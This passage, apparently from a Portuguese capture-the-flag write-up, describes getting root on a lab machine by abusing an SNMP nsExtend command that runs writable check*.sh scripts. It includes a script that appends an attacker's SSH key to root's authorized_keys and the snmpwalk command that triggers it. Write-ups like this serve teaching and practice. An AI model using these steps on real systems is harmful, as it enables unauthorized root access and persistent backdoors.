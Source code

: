 Inspecionando este arquivo, na verdade descobri que se tratava de um diretório, o qual não temos acesso de leitura (apenas escrita e execução vide output acima). Buscando por outros arquivos que fizessem referência a este diretório, executei um `grep` recursivo no sistema, onde encontrei um arquivo previamente observado no scan do `snmpwalk`.

```bash
[michelle@pit local]$ grep -r "/usr/local/monitoring/"  / 2>/dev/null
/usr/bin/monitor:for script in /usr/local/monitoring/check*sh
[michelle@pit local]$ cat /usr/bin/monitor 
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
[michelle@pit local]$
```

Como podemos ver, este script executa quaisquer arquivos com nome `check*.sh` do diretório `/usr/local/monitoring`, permitindo, que qualquer comando arbitrário seja executado a partir do processo que inicializa o script `/usr/bin/monitor`.

Para melhor entendimento de como poderia usar este privilégio encontrado, decidi buscar dentro do recon já realizado menções ao arquivo `monitor`, onde encontrei uma referência nos scans do SNMP onde este arquivo se encontra configurado como **nsExtendedCommands**.

```bash
$ grep -r "/usr/bin/monitor" .
./scans/snmpwalk_nsExtendObjects.txt:NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
./scans/snmp_full.txt:iso.3.6.1.4.1.8072.1.3.2.2.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: "/usr/bin/monitor"
```

De acordo com o guia em [SNMP RCE - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce#getting-the-shell-from-net-snmp-extend), se algum componente estiver configurado como nsExtendedCommand (ou for capaz de adicionar algum binário arbitrariamente dentre estas configurações), você pode inicializar a sua execução utilizando o `snmpwalk`.

Com base nas informações levantadas, temos uma possível forma de obter acesso `root`, onde os seguintes passos foram utilizados:

- Criei um arquivo  `checkXXXX.sh`, que adiciona uma chave pública como confiável dentro do arquivo `authorized_keys` do perfil que executa o processo e copiado para `/usr/bin/monitor`.

  ```bash
  #!/bin/bash
  echo "ssh-rsa <base64PubKey> root@kali" >> ~/.ssh/authorized_keys
  ```

- A partir da máquina do atacante, iniciei a ação para executar as ações nsExtendedObject

  ```bash
  # Trigger Extended objects
  snmpwalk -v 1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
  ```

- Após este ponto, consegui me conectar utilizando a chave privada correspondente via SSH com a conta do usuário `root`, onde consegui obter a flag final.
